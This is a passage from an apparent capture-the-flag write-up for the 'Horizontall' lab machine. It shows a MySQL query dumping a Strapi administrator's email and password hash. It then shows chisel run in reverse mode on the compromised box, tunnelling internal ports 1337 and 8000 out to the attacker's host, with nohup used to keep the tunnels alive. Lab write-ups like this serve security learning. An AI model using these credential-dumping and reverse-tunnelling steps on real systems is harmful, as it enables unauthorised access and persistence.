 ```bash
      },
      "options": {}
    }
  }
}
```

Credentials are not from developer user. Exploring mysql:

```bash
mysql> select * from strapi_administrator
select * from strapi_administrator
    -> ;
;
+----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
| id | username | email                 | password                                                     | resetPasswordToken | blocked |
+----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
|  3 | admin    | admin@horizontall.htb | $2a$10$fP13.nimEd.97PxsIp6afef9nchddXMEhK.YHIJ6AqfNHTQ6D7DKG | NULL               |    NULL |
+----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
1 row in set (0.00 sec)

mysql>
```

We have 2 different ports - 1337 and 8000. To access it easily and maybe exploit it further, I used port-forwarding with chisel:

Start a server on port 9999:

```bash
┌──(root💀kali)-[~/tools]
└─# ./chisel server -p 9999 --reverse                                                                                                                                                                                                    1 ⨯
2021/10/02 14:59:28 server: Reverse tunnelling enabled
2021/10/02 14:59:28 server: Fingerprint hnLWungm+SFXDbE2xhkXHvZu7Pzb7Tjb3XfG7hwiQdg=
2021/10/02 14:59:28 server: Listening on http://0.0.0.0:9999
2021/10/02 15:00:24 server: session#1: tun: proxy#R:1337=>1337: Listening
2021/10/02 15:00:53 server: session#2: tun: proxy#R:8000=>8000: Listening
```

Run chisel on the box in client mode with specified ports to forward and also use nohup to make it on a long way.

```bash
strapi@horizontall:/tmp$ nohup ./chisel client 10.10.14.15:9999 R:1337:127.0.0.1:1337 &
:1337 &/chisel client 10.10.14.15:9999 R:1337:127.0.0.1:
[1] 62194
strapi@horizontall:/tmp$ nohup: ignoring input and appending output to 'nohup.out'

strapi@horizontall:/tmp$ nohup ./chisel client 10.10.14.15:9999 R:8000:127.0.0.1:8000 &
:8000 &/chisel client 10.10.14.15:9999 R:8000:127.0.0.1:
[2] 62215
strapi@horizontall:/tmp$
```
